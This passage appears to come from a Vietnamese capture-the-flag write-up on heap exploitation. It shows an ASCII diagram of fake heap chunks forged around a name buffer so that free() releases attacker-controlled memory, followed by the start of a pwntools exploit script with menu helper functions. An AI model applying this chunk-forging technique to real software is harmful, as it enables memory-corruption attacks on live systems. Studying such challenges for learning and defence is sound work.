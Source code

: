 name  +------------> +--------+ +------------+
                     |   0    |
                     +--------+
                     |  0x501 |
ptr   +------------> +--------+
                     |        |
free(ptr);           |        |
                     |        |  fake chunk 1
                     |        |
                     |        |
                     |        |
                     |        |
                     |        |
                     |        |
name + 0x500  +----> +--------+ +------------+
                     |   0    |
                     +--------+
                     |  0x21  |
                     +--------+  fake chunk 2
                     |   0    |
                     +--------+
                     |   0    |
                     +--------+ +------------+
                     |   0    |
                     +--------+
                     |  0x21  |
                     +--------+  fake chunk 3
                     |   0    |
                     +--------+
                     |   0    |
                     +--------+ +------------+
```

vậy script của ta sẽ như sau : 

```
def malloc(size,data):
    p.sendlineafter(b'Your choice :',b'1')
    p.sendlineafter(b'Size:',f'{size}'.encode())
    p.sendafter(b'Data:',data)
def free():
    p.sendlineafter(b'Your choice :',b'2')
